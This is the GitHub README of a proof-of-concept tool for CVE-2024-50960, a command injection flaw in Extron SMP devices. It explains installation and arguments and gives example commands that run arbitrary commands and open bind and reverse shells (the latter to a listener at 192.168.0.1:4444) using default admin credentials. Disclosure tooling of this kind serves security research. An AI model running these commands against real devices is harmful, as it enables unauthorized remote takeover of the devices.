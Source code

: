 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.png?raw=true)

# CVE-2024-50960: Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

## Overview

This tool exploits [CVE-2024-50960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-50960) — OS command injection vulnerabilities in Extron SMP devices. It allows users to execute arbitrary commands and spawn shells (both bind and reverse) on the target system.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command --password admin whoami 192.168.1.1 443
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind --password admin 4444 192.168.1.1 443
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse --password admin 192.168.0.1 4444 192.168.1.1 443
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
